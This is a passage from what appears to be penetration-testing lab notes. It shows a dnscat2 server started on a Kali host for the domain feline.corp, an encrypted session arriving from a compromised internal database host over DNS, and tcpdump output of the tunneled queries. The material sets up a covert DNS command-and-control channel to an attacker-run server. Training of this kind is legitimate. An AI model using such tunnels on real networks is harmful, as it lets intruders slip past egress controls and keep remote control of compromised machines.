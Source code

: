 + The dnscat2 client reports that a session has been established. We can check for connections back on our dnscat2 server:
```
kali@felineauthority:~$ dnscat2-server feline.corp
[sudo] password for kali: 

New window created: 0
New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 0.0.0.0:53
[domains = feline.corp]...

Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=7a87a5d0a8480b080896606df6b63944 feline.corp

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=7a87a5d0a8480b080896606df6b63944

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.

dnscat2> New window created: 1
Session 1 security: ENCRYPTED BUT *NOT* VALIDATED
For added security, please ensure the client displays the same string:

>> Annoy Mona Spiced Outran Stump Visas

dnscat2>
```

Our session is connected! DNS is working exactly as expected
+ Requests from `PGDATABASE01` are being resolved by `MULTISERVER03`, and end up on `FELINEAUTHORITY`
+ When run without a pre-shared _--secret_ flag at each end, dnscat2 will print an _authentication string_. This is used to verify the connection integrity after the encryption has been negotiated. The authentication string in this case ("Annoy Mona Spiced Outran Stump Visas") is the same on both client and server, so we know there's no in-line tampering. Every time a connection is made, the authentication string will change

We can use our tcpdump process to monitor the DNS requests to **feline.corp**:
```
...
07:22:14.732111 IP 192.168.50.64.51077 > 192.168.118.4.domain: 29066+ [1au] TXT? 8f150140b65c73af271ce019c1ede35d28.feline.corp. (75)
07:22:14.732538 IP 192.168.118.4.domain > 192.168.50.64.51077: 29066 1/0/0 TXT "b40d0140b6a895ada18b30ffff0866c42a" (111)
07:22:15.387435 IP 192.168.50.64.65022 > 192.168.118.4.domain: 65401+ CNAME? bbcd0158e09a60c01861eb1e1178dea7ff.feline.corp. (64)
07:22:15.388087 IP 192.168.118.4.domain > 192.168.50.64.65022: 65401 1/0/0 CNAME a2890158e06d79fd12c560ffff57240ba6.feline.corp. (124)
07:22:15.741752 IP 192.168.50.64.50500 > 192.168.118.4.domain: 6144+ [1au] CNAME? 38b20140b6a4ccb5c3017c19c29f49d0db.feline.corp. (75)
07:22:15.742436 IP 192.168.118.4.domain > 192.168.50.64.50500: 6144 1/0/0 CNAME e0630140b626a6fa2b82d8ffff0866c42a.feline.corp. (124)
07:22:16.397832 IP 192.168.50.64.50860 > 192.168.118.4.domain: 16449+ MX? 8a670158e004d2f8d4d5811e1241c3c1aa.feline.corp. (64)
```